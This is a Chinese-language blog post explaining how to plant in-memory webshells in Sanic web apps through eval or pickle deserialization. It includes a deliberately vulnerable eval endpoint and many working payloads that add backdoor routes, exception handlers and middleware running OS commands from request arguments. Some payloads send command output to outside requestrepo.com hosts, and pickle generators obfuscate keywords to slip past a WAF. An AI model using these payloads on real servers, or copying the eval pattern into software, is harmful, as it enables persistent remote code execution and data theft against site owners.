

+++
title = "sanic内存马"
slug = "sanic-memory-shell"
description = "pickle反序列化的时候应该挺有用的吧"
date = "2025-05-27T15:35:40"
lastmod = "2025-05-27T15:35:40"
image = ""
license = ""
categories = ["talk"]
tags = ["sanic"]

password= "sanicccccccccc"

+++

直接开始，首先就是测试代码

```python
from sanic import Sanic
from sanic.response import json,text

app = Sanic("hello")


@app.route('/',methods=['GET','POST'])
async def hello(request):
    cmd = request.form.get('cmd')
    print(eval(cmd))

    return text("ok")

#
if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)

```

我们POST传参即可，在前面GXN男神已经告诉了我们一条免费的内存马

```python
eval('app.add_route(lambda request: __import__("os").popen(request.args.get("gxngxngxn")).read(),"/gxngxngxn", methods=["GET", "POST"])')
```

这里使用`add_route`方法直接动态添加路由，但若是如果把这个方法禁用了又改如何呢

## 内存马合集

直接`cmd=dir(app)`得到sanic的所有方法

```
['START_METHOD_SET', '__annotations__', '__call__', '__class__', '__class_getitem__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__orig_bases__', '__parameters__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__slots__', '__str__', '__subclasshook__', '__touched__', '__touchup__', '_app_registry', '_apply_exception_handler', '_apply_listener', '_apply_middleware', '_apply_route', '_apply_signal', '_apply_static', '_asgi_app', '_asgi_client', '_asgi_lifespan', '_asgi_single_callable', '_blueprint_order', '_build_endpoint_name', '_build_route_context', '_cancel_websocket_tasks', '_check_uvloop_conflict', '_cleanup_apps', '_cleanup_env_vars', '_delayed_tasks', '_determine_error_format', '_ext', '_future_exceptions', '_future_listeners', '_future_middleware', '_future_registry', '_future_routes', '_future_signals', '_future_statics', '_generate_name', '_get_context', '_get_file_path', '_get_process_states', '_get_response_types', '_get_startup_method', '_helper', '_inspector', '_listener', '_loop_add_task', '_manager', '_prep_task', '_register_static', '_run_request_middleware', '_run_response_middleware', '_run_server', '_server_event', '_set_startup_method', '_setup_listener', '_start_servers', '_startup', '_state', '_static_request_handler', '_task_registry', '_test_client', '_test_manager', '_websocket_handler', 'ack', 'add_route', 'add_signal', 'add_task', 'add_websocket_route', 'after_reload_trigger', 'after_server_start', 'after_server_stop', 'all_exceptions', 'amend', 'asgi', 'asgi_client', 'auto_reload', 'before_reload_trigger', 'before_server_start', 'before_server_stop', 'blueprint', 'blueprints', 'cancel_task', 'catch_exception', 'certloader_class', 'config', 'configure_logging', 'create_server', 'ctx', 'debug', 'delete', 'dispatch', 'dispatch_delayed_tasks', 'enable_websocket', 'error_handler', 'event', 'exception', 'ext', 'extend', 'finalize', 'finalize_middleware', 'generate_name', 'get', 'get_address', 'get_app', 'get_motd_data', 'get_server_location', 'get_task', 'go_fast', 'handle_exception', 'handle_request', 'head', 'inspector', 'inspector_class', 'listener', 'listeners', 'loop', 'm', 'main_process_ready', 'main_process_start', 'main_process_stop', 'make_coffee', 'manager', 'middleware', 'motd', 'multiplexer', 'name', 'named_request_middleware', 'named_response_middleware', 'on_request', 'on_response', 'options', 'patch', 'post', 'prepare', 'purge_tasks', 'put', 'refresh', 'register_app', 'register_listener', 'register_middleware', 'register_named_middleware', 'reload_dirs', 'reload_process_start', 'reload_process_stop', 'report_exception', 'request_class', 'request_middleware', 'response_middleware', 'route', 'router', 'run', 'run_delayed_task', 'serve', 'serve_location', 'serve_single', 'set_serving', 'setup_loop', 'shared_ctx', 'should_auto_reload', 'shutdown_tasks', 'signal', 'signal_router', 'signalize', 'sock', 'start_method', 'state', 'static', 'stop', 'strict_slashes', 'tasks', 'test_client', 'test_mode', 'unregister_app', 'update_config', 'url_for', 'websocket', 'websocket_enabled', 'websocket_tasks']
```

其中就有太多可以利用的方法了，我们一葫芦画瓢直接写出payload

```python
eval("""app.get('/backdoor')(
    lambda r: __import__('os').popen(r.args.get('cmd')).read()
)""")
```



```python
eval("""app.listener('before_server_start')(
    lambda app, loop: __import__('os').system('curl https://4fz7yove.requestrepo.com/')
)""")
```

只不过这个listener要重启才能有，所以利用不了

```python
eval("""app.exception(Exception)(
    lambda r, e: __import__('sanic').response.text(
        __import__('os').popen(r.args.get('cmd')).read()
    )
)""")
```

```python
eval("""app.exception(NotFound)(
    lambda r, e: __import__("sanic").response.text(__import__("os").popen(r.args.get("cmd")).read()))
""")
```

但是这个`NotFound`如果不导入的话就用不了，或者还可以使用中间件

```python
eval("""app.middleware('request')(
    lambda r: __import__('os').popen(r.args.get('cmd')).read() 
    if r.args.get('cmd') else None
)""")
```

太多了，大家看着方法随便挖挖都可以

```python
eval("""app.route('/backdoor')(
    lambda r: __import__('os').popen(r.args.get('cmd')).read()
)""")

cmd=eval("""app.add_task(
    lambda: __import__('requests').post('https://sh3pc7ox.requestrepo.com/', 
        data={'result': __import__('os').popen('whoami').read()})
)""")
```

再我探索写法的时候，发现可以利用`getattr`来进行字符串的拼接，这会大大的出现一些姿势

```python
import base64
import pickle


class Shell:
    def __reduce__(self):
        # return (eval, ("""app.add_route(lambda request: __import__("os").popen(request.args.get("cmd")).read(), "/shell")""",))
        return (eval, ("""app.route('/backdoor')(lambda r: __import__('os').popen(r.args.get('cmd')).read())""",))
        # return (eval, ("""app.add_task(lambda: __import__('requests').post('https://sh3pc7ox.requestrepo.com/', data={'result': __import__('os').popen('whoami').read()}))""",))
        # return (eval, ("""getattr(app, "add" + "_" + "route")(lambda request: __import__("os").popen(request.args.get("cmd")).read(), "/shell")""",))

payload = base64.b64encode(pickle.dumps(Shell())).decode()
print(payload)
```

如下脚本

```python
import base64
import pickle


# 方法1：使用getattr绕过get关键词
class Shell1:
    def __reduce__(self):
        return (eval, (
        """app.route('/backdoor')(lambda r: __import__('os').popen(getattr(r.args, 'g' + 'e' + 't')('cmd')).read())""",))


# 方法2：使用字典访问方式
class Shell2:
    def __reduce__(self):
        return (eval, ("""app.route('/backdoor')(lambda r: __import__('os').popen(r.args['cmd']).read())""",))


# 方法3：使用chr函数构造get
class Shell3:
    def __reduce__(self):
        return (eval, (
        """app.route('/backdoor')(lambda r: __import__('os').popen(getattr(r.args, chr(103)+chr(101)+chr(116))('cmd')).read())""",))


# 方法4：使用base64解码构造get
class Shell4:
    def __reduce__(self):
        return (eval, (
        """app.route('/backdoor')(lambda r: __import__('os').popen(getattr(r.args, __import__('base64').b64decode(b'Z2V0').decode())('cmd')).read())""",))


# 方法5：使用exec避免直接的get调用
class Shell5:
    def __reduce__(self):
        return (exec, ("""
def backdoor_handler(r, *args, **kwargs):
    import os
    cmd = r.args['cmd'] if 'cmd' in r.args else 'whoami'
    return __import__('sanic.response').response.text(os.popen(cmd).read())
app.route('/backdoor')(backdoor_handler)
""",))


# 测试每个payload
payloads = []
for i, shell_class in enumerate([Shell1, Shell2, Shell3, Shell4, Shell5], 1):
    payload = base64.b64encode(pickle.dumps(shell_class())).decode()
    payloads.append(f"Payload {i}: {payload}")
    print(f"Payload {i}: {payload}")
    print()

# 检查哪些payload包含敏感关键词
print("=== WAF检测结果 ===")
dangerous_keywords = [b'exception', b'listener', b'get', b'post', b'middleware']

for i, shell_class in enumerate([Shell1, Shell2, Shell3, Shell4, Shell5], 1):
    payload_bytes = pickle.dumps(shell_class())
    detected = []
    for keyword in dangerous_keywords:
        if keyword in payload_bytes.lower():
            detected.append(keyword.decode())

    if detected:
        print(f"Payload {i}: 触发WAF - {detected}")
    else:
        print(f"Payload {i}: 通过WAF检测 ✓")
```

发现方法2和方法5可以成功，但是实际使用发现方法5没成功，服了

```python
return (eval, ("""app.route('/backdoor')(lambda r: __import__('os').popen(r.args['cmd'][0]).read())""",))
```


